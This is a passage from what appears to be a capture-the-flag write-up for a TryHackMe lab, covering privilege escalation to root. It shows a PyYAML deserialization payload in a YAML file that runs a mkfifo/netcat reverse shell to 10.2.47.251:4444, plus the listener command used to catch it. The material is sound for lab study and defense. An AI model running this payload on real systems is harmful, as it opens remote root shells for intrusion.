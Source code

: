 ### Root
let's get the shell 

- first i'm create file.yml at /tmp : 
```
!!python/object/new:os.system [rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.47.251 4444 >/tmp/f ]
```
- now in attacker machines using `nc -lvnp 4444`
- lets run file.py and get a shell of root

![img](/assets/thm_en-pass/bg_13.jpeg)

and BOOMMM!! we got the root :D.

Happy hacking :)